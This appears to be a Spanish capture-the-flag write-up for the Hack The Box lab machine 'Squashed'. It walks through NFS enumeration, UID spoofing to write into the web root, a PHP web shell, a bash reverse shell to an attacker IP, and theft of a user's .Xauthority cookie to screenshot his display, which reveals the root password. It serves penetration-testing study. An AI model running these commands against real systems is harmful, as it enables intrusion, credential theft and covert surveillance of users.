

## Información Básica

### Técnicas vistas

- NFS Enumeration
- Abusing owners assigned to NFS shares by creating new users on the system (Get Access to Web Root)
- Creating a web shell to gain system access
- Abusing .Xauthority file (Pentesting X11)
- Taking a screenshot of another user's display

### Preparación

- OSCP

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.191 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.11.191`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
80/tcp    open  http    syn-ack ttl 63
111/tcp   open  rpcbind syn-ack ttl 63
2049/tcp  open  nfs     syn-ack ttl 63
37013/tcp open  unknown syn-ack ttl 63
38149/tcp open  unknown syn-ack ttl 63
43643/tcp open  unknown syn-ack ttl 63
43741/tcp open  unknown syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p22,80,111,2049,37013,38149,43643,43741 10.10.11.191 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.11.191`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33734/udp   mountd
|   100005  1,2,3      39815/tcp6  mountd
|   100005  1,2,3      43741/tcp   mountd
|   100005  1,2,3      48722/udp6  mountd
|   100021  1,3,4      43643/tcp   nlockmgr
|   100021  1,3,4      45467/tcp6  nlockmgr
|   100021  1,3,4      49103/udp6  nlockmgr
|   100021  1,3,4      58243/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
37013/tcp open  mountd   1-3 (RPC #100005)
38149/tcp open  mountd   1-3 (RPC #100005)
43643/tcp open  nlockmgr 1-4 (RPC #100021)
43741/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### NFS Enumeration

Vemos que el servicio **RPC** (*Remote Procedure Call*) y **NFS** (*Network File System*), están disponibles, vamos a ver que arhivos ofrece:

```bash wrap=false
❯ showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
❯ sudo mount -t nfs 10.10.11.191:/var/www/html /mnt/nfs/www_html
❯ sudo mount -t nfs 10.10.11.191:/home/ross /mnt/nfs/home/ross
```

Ahora vamos a listar lo que hay en estos directorios:

```bash wrap=false
❯ find /mnt -ls
   133456      4 drwxr-xr--   5 2017    www-data     4096 oct  7 23:45 /mnt/nfs/www_html
find: ‘/mnt/nfs/www_html/.htaccess’: Permiso denegado
find: ‘/mnt/nfs/www_html/index.html’: Permiso denegado
find: ‘/mnt/nfs/www_html/images’: Permiso denegado
find: ‘/mnt/nfs/www_html/css’: Permiso denegado
find: ‘/mnt/nfs/www_html/js’: Permiso denegado
    30718      4 drwxr-xr-x  14 1001     1001         4096 oct  6 23:01 /mnt/nfs/ross_home
    39115      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Music
    39116      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Pictures
     5632      4 -rw-------   1 1001     1001         2475 dic 27  2022 /mnt/nfs/ross_home/.xsession-errors.old
    39023      4 drwx------  11 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/.cache
find: ‘/mnt/nfs/ross_home/.cache’: Permiso denegado
    39113      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Public
    39114      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Documents
    39343      4 -rw-rw-r--   1 1001     1001         1365 oct 19  2022 /mnt/nfs/ross_home/Documents/Passwords.kdbx
    39080      4 drwx------  12 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/.config
find: ‘/mnt/nfs/ross_home/.config’: Permiso denegado
    39101      4 drwx------   3 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/.local
find: ‘/mnt/nfs/ross_home/.local’: Permiso denegado
    39128      0 lrwxrwxrwx   1 root      root            9 oct 21  2022 /mnt/nfs/ross_home/.viminfo -> /dev/null
     5606      4 -rw-------   1 1001     1001         2475 oct  6 23:01 /mnt/nfs/ross_home/.xsession-errors
    39117      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Videos
    39012      0 lrwxrwxrwx   1 root      root            9 oct 20  2022 /mnt/nfs/ross_home/.bash_history -> /dev/null
    39105      4 drwx------   3 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/.gnupg
find: ‘/mnt/nfs/ross_home/.gnupg’: Permiso denegado
    39207      4 -rw-------   1 1001     1001           57 oct  6 23:01 /mnt/nfs/ross_home/.Xauthority
    39110      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Desktop
    39111      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Downloads
    39112      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Templates
```

## Explotación

Vemos que no tenemos permisos sobre `/www_html`, estaría bien poder acceder. NFS tiene un problema con la autorización de archivos ya que solo lee si coincide el **UID**, si nos cremos un usuario con UID igual a `2017` y intentamos listar los archivos con el, pasa lo siguiente:

```bash wrap=false
❯ sudo useradd -u 2017 dummy
❯ sudo su dummy -c bash
bash: no se puede establecer el grupo de proceso de terminal (708353): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
dummy@kali:/mnt/nfs$ ls -l /mnt/nfs/
total 8
drwxr-xr-x 14  1001     1001 4096 oct  6 23:01 ross_home
drwxr-xr--  5 dummy www-data 4096 oct  7 23:40 www_html
dummy@kali:/mnt/nfs$ cd www_html/
dummy@kali:/mnt/nfs/www_html$ ls
css  images  index.html  js
```

Si probamos a escribir un archivo php de prueba:

```bash wrap=false
dummy@kali:/mnt/nfs/www_html$ echo -e '<?php\n  echo "probando php";\n?>' > test.php
❯ curl 'http://10.10.11.191/test.php'
probando php
```

### Web shell

Vemos que se interpreta `PHP`, por lo que nos montaremos una **web shell**:

```bash wrap=false
dummy@kali:/mnt/nfs/www_html$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > shell.php
❯ curl 'http://10.10.11.191/shell.php?cmd=id'
uid=2017(alex) gid=2017(alex) groups=2017(alex)
```

Perfecto, nos entablaremos una `reverse shell`:

```bash wrap=false intitle="Lanzamos el ataque"
❯ curl 'http://10.10.11.191/shell.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.15/443+0>%261"'
❯ sudo nc -lvnp 443
[sudo] contraseña para zelpro: 
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.191] 59106
bash: cannot set terminal process group (1081): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ whoami
alex
alex@squashed:/var/www/html$ cd /home  
alex@squashed:/home$ cd alex 
alex@squashed:/home/alex$ cat user.txt  
759a602f3c48396a9fb...
```

## Escalada de privilegios

### .Xauthority

Algo que me llamó la atención, es la existencia de el archivo `/home/ross/.Xauthority`. Este archivo que almacena **Magic Cookies**, credenciales que permiten acceder al servidor X11 (sistema gráfico), [aquí](https://book.hacktricks.wiki/en/network-services-pentesting/6000-pentesting-x11.html) os dejo un artículo de **HackTricks** con el que nos guiaremos. Para ver si hay alguna sesión activa, usaremos `w`:

```bash wrap=false
alex@squashed:/home$ w
 13:14:11 up 1 day, 16:13,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Mon21   40:13m  2:35   0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Vemos que **ross** está en una sesión en la pantalla `:0`. Para intentar conectarnos usaremos el siguiente comando:

```bash wrap=false
alex@squashed:/home$ xdpyinfo -display :0
No protocol specified
xdpyinfo:  unable to open display ":0".
```

Esto es porque necesitamos tener el `.Xauthority`, vamos a descargarlo:

```bash wrap=false intitle="Servimos el archivo"
❯ cd ross_home
❯ ls -la
drwxr-xr-x 1001 1001 4.0 KB Mon Oct  6 23:01:18 2025  .
drwxr-xr-x root root 4.0 KB Tue Oct  7 23:27:41 2025  ..
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰃨 .cache
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  .config
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰢬 .gnupg
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  .local
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Desktop
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Documents
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰉍 Downloads
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󱍙 Music
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰉏 Pictures
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Public
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Templates
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Videos
lrwxrwxrwx root root   9 B  Thu Oct 20 15:24:01 2022  .bash_history ⇒ /dev/null
lrwxrwxrwx root root   9 B  Fri Oct 21 15:07:10 2022  .viminfo ⇒ /dev/null
.rw------- 1001 1001  57 B  Mon Oct  6 23:01:18 2025  .Xauthority
.rw------- 1001 1001 2.4 KB Mon Oct  6 23:01:18 2025  .xsession-errors
.rw------- 1001 1001 2.4 KB Tue Dec 27 16:33:41 2022 󰁯 .xsession-errors.old
❯ sudo useradd -u 1001 dummy2
❯ sudo su dummy2 -c bash
bash: no se puede establecer el grupo de proceso de terminal (784281): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
dummy2@kali:/mnt/nfs/ross_home$ ls -la
total 68
drwxr-xr-x 14 dummy2 dummy2 4096 oct  6 23:01 .
drwxr-xr-x  4 root   root   4096 oct  7 23:27 ..
lrwxrwxrwx  1 root   root      9 oct 20  2022 .bash_history -> /dev/null
drwx------ 11 dummy2 dummy2 4096 oct 21  2022 .cache
drwx------ 12 dummy2 dummy2 4096 oct 21  2022 .config
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Desktop
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Documents
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Downloads
drwx------  3 dummy2 dummy2 4096 oct 21  2022 .gnupg
drwx------  3 dummy2 dummy2 4096 oct 21  2022 .local
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Music
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Pictures
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Public
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Templates
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Videos
lrwxrwxrwx  1 root   root      9 oct 21  2022 .viminfo -> /dev/null
-rw-------  1 dummy2 dummy2   57 oct  6 23:01 .Xauthority
-rw-------  1 dummy2 dummy2 2475 oct  6 23:01 .xsession-errors
-rw-------  1 dummy2 dummy2 2475 dic 27  2022 .xsession-errors.old
dummy2@kali:/mnt/nfs/ross_home$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.11.191 - - [08/Oct/2025 15:21:37] "GET /.Xauthority HTTP/1.1" 200 -
```

```bash wrap=false intitle='Nos descargamos el archivo'
alex@squashed:/home/alex$ wget http://10.10.14.15:1234/.Xauthority
--2025-10-08 13:21:40--  http://10.10.14.15:1234/.Xauthority
Connecting to 10.10.14.15:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 57 [application/octet-stream]
Saving to: ‘.Xauthority’

.Xauthority                                   100%[=================================================================================================>]      57  --.-KB/s    in 0.1s    

2025-10-08 13:21:40 (553 B/s) - ‘.Xauthority’ saved [57/57]
```

Vamos a volver a intentarlo ahora:

```bash wrap=false
alex@squashed:/home/alex$ xdpyinfo -display :0
name of display:    :0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    12013000
X.Org version: 1.20.13
maximum request size:  16777212 bytes
motion buffer size:  256
bitmap unit, bit order, padding:    32, LSBFirst, 32
image byte order:    LSBFirst
number of supported pixmap formats:    7
...
```

### Taking a screenshot

Vemos que ahora si que podemos. Vamos a intentar hacer una captura de pantalla:

```bash wrap=false intitle='Hacemos la captura y nos la enviamos'
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:/tmp$ ls
screenshot.xwd
alex@squashed:/tmp$ nc 10.10.14.15 4444 < screenshot.xwd 
```

```bash wrap=false intitle='Descargamos la captura y la convertimos'
❯ sudo nc -lvnp 4444 > screenshot.xwd
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.191] 41424
❯ ls
 screenshot.xwd
```



Tenemos la contraseña de `root:cah$mei7rai9A`:

```bash wrap=false
alex@squashed:/tmp$ su root
Password: 
root@squashed:/tmp# whoami
root
root@squashed:/tmp# cat /root/root.txt 
847b319defe87324cbd...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/514)

---